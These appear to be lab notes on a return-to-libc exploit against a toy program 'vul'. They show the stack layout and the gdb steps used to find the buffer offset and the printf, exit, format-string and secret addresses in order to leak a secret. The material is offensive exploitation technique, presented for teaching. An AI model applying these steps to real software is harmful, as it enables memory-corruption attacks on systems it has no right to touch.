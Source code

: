 # Return to libc

Return to libc requires an additional flag `-fno-stack-protector` when compiling.

## Creating the stack frame for libc

We want to place the address of a libc function below $ebp, at the return address, such that the libc instruction is loaded into $eip after the return address is consumed.

When the libc instruction is executed, we need to convince the libc function that it was called regularly.

```
|      buffer      |
|       ...        |
|     old ebp      |
|   return addr    | <- &libc
|      arg0        | <- fake return addr
|      arg1        | <- arg0
```

# vul

## Debugging

### Offset between &buffer and $ebp

We first need to get &buffer and $ebp to determine how much padding we need to reach the bottom of the stack frame.

```
print &buf
> 0xffffd350
print $ebp
> 0xffffd3a8
```

`$ebp -  &buffer = 88`. Therefore, we need an 88-byte padding.

### Address of printf

```
print &printf
> 0xf7e39c60
```

### Fake return address

We can use either `main` or `exit` to exit the program after the libc function returns.

```
print &exit
> 0xf7e19060
```

### Format string address

We can search libc for instances of "%s".

```
info proc map
> <displays all mapped memory address spaces in the current context>

find <start_addr>, <end_addr>, "<pattern>"
> <list of addresses with "<pattern>" value>
```

Then, we can use any of these addresses as the first argument for the format string.

#### No pattern found

If the pattern cannot be found, we will have to write the value ourselves. For `printf`, we can target the memory address 1 word below the current address, or 5 words below $ebp, then write our format string to that location.

`$ebp + 5 words = 0xffffd3bc`

* We should not write our data above because the null byte at the end of the format string will stop our attack.

### Address of secret

```
info stack
> <list of stack frames>
frame 1
> #1 0x080485a5 in main () at vul.c:18
print &secret
> 0xffffd443
```

### Format string contents

Lastly, we are at the address `$ebp + 5 words`. We simply have to write our format string.

```
"%s\n"
```

